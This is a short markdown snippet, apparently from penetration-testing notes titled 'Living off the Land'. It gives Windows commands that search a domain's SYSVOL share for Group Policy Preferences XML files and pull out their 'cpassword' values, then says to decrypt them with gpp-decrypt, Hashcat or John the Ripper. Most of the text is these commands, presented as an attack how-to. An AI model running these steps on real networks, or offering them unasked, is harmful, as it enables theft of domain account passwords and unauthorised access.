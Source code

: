 # Living off the Land

Use the `dir` command to find the XML file

```
C:\> dir /s Groups.xml

C:\> findstr /s cpassword %LOGONSERVER%\sysvol\*.xml
```

Copy the **cpassword** attribute after you've opened the XML file. Then decrypt it using `gpp-decrypt` utility or any other password cracking programs that is highly recommended like **Hashcat** or **John The Ripper**.

```
C:\> type C:\path\to\GPP_file.xml
```